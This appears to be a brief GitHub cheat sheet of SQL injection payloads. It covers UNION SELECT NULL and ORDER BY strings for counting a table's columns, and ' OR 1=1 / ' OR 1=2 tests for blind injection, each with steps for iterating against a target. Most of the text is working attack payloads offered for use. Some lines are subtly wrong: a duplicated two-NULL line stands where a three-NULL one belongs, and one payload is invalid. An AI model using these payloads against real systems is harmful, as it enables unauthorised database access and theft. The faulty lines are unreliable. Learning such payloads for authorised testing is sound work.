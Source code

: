 # SQL Injection
**In the payloads here, I use "-- -", this is just to show that there's a space after the "--", don't put another "-" after the "-- "**

## Table of Contents
- [SQL Injection](#sql-injection)
  * [Getting The Number of Columns of a Table](#getting-the-number-of-columns-of-a-table)

## Getting The Number of Columns of a Table

### With UNION:

```SQL
' UNION SELECT NULL-- -
' UNION SELECT NULL,NULL-- -
' UNION SELECT NULL,NULL-- -
```
(Continue until you **don't** get an error which is caused by not having the right amount of columns)

### With ORDER BY:

```SQL
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
```
(Continue until you **do** get an error which is caused by there not being a column to order by (1st column, 2nd column, etc)

## Testing For Blind SQL Injection
Test if the results of an input (like a search) changes based off of your payload.

```SQL
' OR 1=1-- - (returns true)
' OR 1=2-- - (returns false)

' SELECT 1-- - (returns true)
```
